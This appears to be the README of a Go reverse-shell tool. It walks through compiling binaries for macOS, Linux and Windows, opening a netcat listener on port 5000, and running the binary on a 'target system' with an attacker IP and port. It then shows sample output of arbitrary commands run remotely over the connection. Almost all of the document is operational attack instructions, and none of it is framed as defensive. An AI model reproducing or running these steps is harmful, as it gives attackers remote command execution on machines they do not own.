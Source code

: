 # go-reverse-shell


## Usage


1. Compile the reverse shell:
```bash
make all
```

2. Get the compiled binary for the target system from artifcats directory:
```bash
$ tree
.
├──reverse-shell-darwin
├──reverse-shell-linux
└──reverse-shell-windows.exe
```

3. Start a listener on:

```bash
$ nc -nlvp 5000
```

4. Start reverse shell on target system:

```bash
$ ./reverse-shell -ip 10.93.10.17 -port 5000
```

This will establish a tcp connection between the listening machine and the target machine. 
If the connection was established successfully you can send arbitrary commands from the listening machine.

```bash
$ nc -nlvp 5000
ls -la
total 0
drwxr-xr-x  4 marco  staff  128 Sep 27 19:13 .
drwxr-xr-x  6 marco  staff  192 Sep 27 19:12 ..
-rw-r--r--  1 marco  staff    0 Sep 27 19:13 file1.txt
-rw-r--r--  1 marco  staff    0 Sep 27 19:13 file2.txt
```
